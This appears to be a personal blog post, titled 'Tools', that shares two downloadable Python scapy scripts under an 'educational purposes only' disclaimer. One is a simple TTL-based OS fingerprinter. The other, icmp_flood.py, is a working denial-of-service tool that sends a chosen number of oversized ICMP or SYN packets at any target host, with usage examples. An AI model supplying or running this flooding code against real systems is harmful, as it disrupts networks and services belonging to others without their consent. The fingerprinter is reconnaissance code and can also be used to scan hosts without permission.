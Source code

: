 ```yaml
---
title: Tools
date: 2024-01-01 14:00:00 +0300
categories: [scripts]
tag: [scripts,python]
---
```


# Disclamer: All the scripts i write are for educational purposes only.

### fingerprinter.py 
### a python script that uses uses ttl from tcp packet to detrmine the os of a machine
### ![image](https://h0t0.github.io/assets/img/ttl.jpg)
### Example: `python3 fingerprinter.py -H IP -sP 5555 -dP 21`

```python
from scapy.all import *
import argparse


def argument_parser():
    """Allow user to specify target host and port."""
    parser = argparse.ArgumentParser(description="Basic OS detection tool.")
    parser.add_argument("-H", "--host", help="Host IP address")
    parser.add_argument("-sP", "--sendport",help="sender port'")
    parser.add_argument("-dP", "--destport",help="destination port'")

    var_args = vars(parser.parse_args())  
    return var_args

def fingerprint(target: str, sport0: int, dport0: int):
	seq=100
	ip = IP(dst=target)
	tcp= TCP(sport= sport0, dport= dport0, flags="S", seq= seq)

	packet= ip/tcp
	synack_packet = sr1(packet ,verbose=0)
	#synack_packet.show()
	if synack_packet.ttl == 128:
		return "Windows"
	elif synack_packet.ttl == 64:
		return "Linux"

	
'''
ip= str(input("Enter the target ip: "))
sendp= int(input("Enter Sending Port: "))
destp= int(input("Enter destination Port: "))
'''

if __name__ == "__main__":
	try:
		user_args = argument_parser()
		host = str(user_args["host"])
		sport = int(user_args["sendport"])
		dport = int(user_args["destport"])
		print(f"The Host {host} OS is " + fingerprint(host, sport, dport))
	except AttributeError:
		print("Error. Please provide the command-line arguments before running.")
```
#### **download the script:** [fingerprinter.py]

[fingerprinter.py]:{{https://github.com/h0t0/h0t0.github.io}}/assets/files/fingerprinter.py

--------
### icmp_flood.py
### a simple icmp/syn flooding tool using scapy
### Example: `python3 icmp_flood.py -H IP -c 100`

```python
from scapy.all import *
import argparse


def argument_parser():
    """Allow user to specify target host and port."""
    parser = argparse.ArgumentParser(description="Basic SYN , ICMP flood script.")
    parser.add_argument("-H", "--host", help="Host IP address")
    parser.add_argument("-c", "--cycle", help="select how many times the packet is sent")

    var_args = vars(parser.parse_args())  # Convert argument namespace to dictionary
    print(var_args)
    return var_args


def icmp_flood(target: str , cycle: int, payload: int = 65000):
	ip = IP(dst=target)
	icmp = ICMP()
	raw = Raw(b"X" * payload)
	packet = ip / icmp / raw
	send(packet, count=cycle, verbose=0)
	print('send_ping(): Sent ' + str(cycle) + ' pings of ' + str(payload) + ' size to ' + target)


def syn_flood(target: str, cycle: int, dport: int,  payload: int = 65000):
	ip = IP(dst=target)
	tcp = TCP(dport= dport, flags= "S")
	raw = Raw(b"X" * payload)
	packet = ip / tcp / raw
	send(packet, count=cycle, verbose=0)
	print('send_syn(): Sent ' + str(cycle) + ' packets of ' + str(payload) + ' size to ' + target)


if __name__ == "__main__":
	try:
		user_args = argument_parser()
		host = str(user_args["host"])
		cycle = int(user_args["cycle"])

		flood_type = input("ICMP or SYN flood? ")

		if flood_type.lower() == "icmp": 
			icmp_flood(host, cycle)
		
		elif flood_type.lower() == "syn":
			dport= int(input("Enter Destination port: "))
			syn_flood(host, cycle, dport)
	
	except AttributeError:
		print("Error. Please provide the command-line arguments before running.")
```
#### **download the script** [icmp_flood.py]

[icmp_flood.py]:{{https://github.com/h0t0/h0t0.github.io}}/assets/files/icmp_flood.py
